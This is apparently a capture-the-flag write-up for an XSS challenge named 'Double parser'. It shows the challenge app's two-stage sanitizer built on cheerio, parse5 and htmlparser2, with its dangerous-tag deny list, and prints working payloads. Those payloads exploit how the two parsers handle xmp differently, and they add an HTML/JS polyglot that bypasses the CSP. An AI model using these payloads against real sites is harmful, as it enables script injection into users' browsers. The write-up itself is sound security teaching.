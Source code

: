 ### Double parser

The challenge was to execute an XSS in the following application:

```js
import fastify from "fastify";
import * as cheerio from "cheerio";
import fs from "node:fs";

const app = fastify();

// Do not use dangerous tags.
const validateTags = ($) => {
  const DANGEROUS_TAGS = [
    "script",
    "noscript",
    "iframe",
    "frame",
    "object",
    "embed",
    "template",
    "meta",
    "svg",
    "math",
  ];
  return $(DANGEROUS_TAGS.join(",")).length === 0;
};

const validate = (html0) => {
  if (typeof html0 !== "string") throw "Invalid type";
  if (html0.length > 1024) throw "Too long";
  if (/[^\r\n\x20-\x7e]/.test(html0)) throw "Invalid characters";

  // Parser 1: parse5
  // ref. https://cheerio.js.org/docs/advanced/configuring-cheerio#parsing-html-with-parse5
  const $1 = cheerio.load(html0);
  if (!validateTags($1)) console.error("Invalid tags: Parser 1");
  const html1 = $1.html(); 

  // Parser 2: htmlparser2
  // ref. https://cheerio.js.org/docs/advanced/configuring-cheerio#using-htmlparser2-for-html
  const $2 = cheerio.load(html1, { xml: { xmlMode: false } });
  if (!validateTags($2)) console.error("Invalid tags: Parser 2");
  const html2 = $2.html();


  return html2;
};

const defaultHtml = fs.readFileSync("index.html", { encoding: "utf8" });

app.get("/", async (req, reply) => {
  try {
    const html = validate(req.query.html ?? defaultHtml);
    reply
      .type("text/html; charset=utf-8")
      .header("Content-Security-Policy", "script-src 'self'")
      .send(html);
  } catch (err) {
    reply.type("text/plain").code(400).send(err);
  }
});

app.listen({ port: 3000, host: "0.0.0.0" });
```

The app sanitizes the input twice through `parse5` and `htmlparser2`. Bypassing the 1st parser was difficult and in most of our testing it was following Chrome implementation. However, bypassing the second parser was quite eassy as it didn't distinguish between text nodes like `<xmp>` or `<noframes>` and treated the content inside them as elements. 

The easiest bypass is as the following: 

```html
<xmp><style></xmp><script>alert()</script></xmp></xmp></style></xmp>
```

but it will be blocked by the first parser. After some trial an error, we've crafted

```html
<xmp><a/id="</xmp><a/id="><style></xmp><script/src='?html=<!%0aalert()//'></script>">
```

Which was passing through the 1st parser and was executing an alert by the second. The reason is that the `htmlparser2` escapes `<` and `>` to `&lt;` and `&gt;` and converted it to:

```html
<xmp><a/id="&lt;/xmp&gt;&lt;a/id="><style></xmp><script/src='?html=<!%0aalert()//'></script>">
```

After which, the `<script>` executes.

One last piece of the solution was to bypass the CSP and we did with the html/js plyglot:

```js
<!--
alert()//
```

